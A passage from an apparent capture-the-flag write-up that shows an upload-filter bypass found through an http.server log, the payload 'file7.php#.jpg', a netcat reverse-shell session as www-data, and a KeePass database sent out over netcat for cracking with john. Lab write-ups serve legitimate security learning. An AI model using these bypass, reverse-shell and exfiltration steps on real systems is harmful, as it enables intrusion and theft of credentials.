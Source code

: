 #### Server Output
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.66.215 - - [12/Apr/2023 07:25:10] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:10] "GET /cat.jpg HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:10] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:10] "GET /file7.php HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file17.phpx00.png HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file18.php HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file19.php%0D HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:12] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:12] "GET /ex: HTTP/1.1" 404 -
```

We noticed the 7th payload looks for a plain PHP file (`GET /file7.php`), we have found our payload:
```
url=http://10.18.11.118/file7.php#.jpg
```

## Foothold

We can now upload a reverse shell by using the above payload. Once we gained access we noticed we are the `www-data` account. There is one other user on this machine called `sysadmin`. The `/home/sysadmin` directory contains the `local.txt` flag and a `scripts` folder.

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.177.101] 36966
$ whoami
www-data
$ pwd
/
$ cd /home/
$ ls
sysadmin
$ cd sysadmin   
$ ls
local.txt
scripts
```

## Lateral movement

By going through the file system, we noticed a `keepass` database in the `/opt/` directory. We send it to our local machine through `netcat` and crack the password with `john`.

```bash
$ nc -w 3 [destination] 4444 < dataset.kdbx
```
